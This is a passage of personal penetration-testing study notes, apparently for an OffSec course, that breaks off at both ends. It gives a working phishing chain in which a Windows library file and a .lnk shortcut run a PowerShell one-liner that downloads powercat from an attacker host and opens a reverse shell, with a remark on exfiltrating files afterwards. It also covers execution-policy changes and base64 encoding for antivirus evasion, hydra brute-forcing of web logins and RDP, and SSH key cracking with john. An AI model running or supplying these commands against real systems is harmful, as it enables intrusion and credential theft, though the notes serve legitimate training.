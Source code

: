 	<searchConnectorDescription>
	<isDefaultSaveLocation>true</isDefaultSaveLocation>
	<isSupported>false</isSupported>
	<simpleLocation>
	<url>http://XXX.XXX.XXX.XXX</url>
	</simpleLocation>
	</searchConnectorDescription>
	</searchConnectorDescriptionList>
	</libraryDescription>
	```
- create a wsgidav server to serve .lnk file shortcut file
	- `pip install python3-wsgidav`
	- In directory you want to serve: `wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .`
- Create a .lnk shortcut file that downloads powercat and runs a powercat command to callback to our computer and open a reverse shell
	```text
	powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<LHOST>:<LPORT>/powercat.ps1');
	powercat -c <LHOST> -p <NETCAT_PORT> -e powershell"
	```
- Set up a separate web server using python to serve powercat. Offsec said we're using a different file server other than wsgidav because wsgidav is read/write; some AV will not let a `.lnk` file download a file from a remote location that is read/write. We could make the wsgidav server read only, but it's nice to keep the write permissions so that once we get the remote shell, we can exfiltrate files from the target.
	- `python3 -m http.server <PORT>`
- Start a netcat listener on the port specified in the `.lnk` file
- Get user to open `.Library.ms` file, then double click the `.lnk` file

## Antivirus Evasion

### AV Evasion in Practice

- TODO: figure out what the powershell "execution policy" is and how it's at all significant if a user can simply turn it off.
	- See execution policy for current user:
		- `Get-ExecutionPolicy -Scope CurrentUser`
	- Set execution policy for current user:
		- `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser`
- To run a powershell script as a one liner, use a [python script](https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py) to base 64 encode the script.

## Password Attacks
- Example http form brute force with hydra:
	- Helpful explanation of how to use hydra for forms: https://github.com/gnebbia/hydra_notes?tab=readme-ov-file#http-forms
	- `hydra http-post-form -h`
	- `hydra -l user -P /usr/share/wordlists/rockyou.txt http://192.168.200.201 http-post-form '/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid'`
- Hydra rdp example:
	- Use `-l/-p` if you know the username/password, or `-L/-P` to provide a username/password list
		- `hydra -l admin-P /usr/share/wordlists/rockyou.txt rdp://192.168.209.227`
	- very similar syntax for ssh brute force
- If you can find a ssh key, use ssh2john to turn it into a hash that is crackable with hashcat or john.
	- NOTE: sometimes hashcat doesn't support hashes such as what is output by `ssh2john id_rsa` in this case, use:
		- `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=sshRules ssh.hash`
			- `sshRules` is a custom rule group that I added by putting the following at the end of
				```
				...
				[List.Rules:sshRules]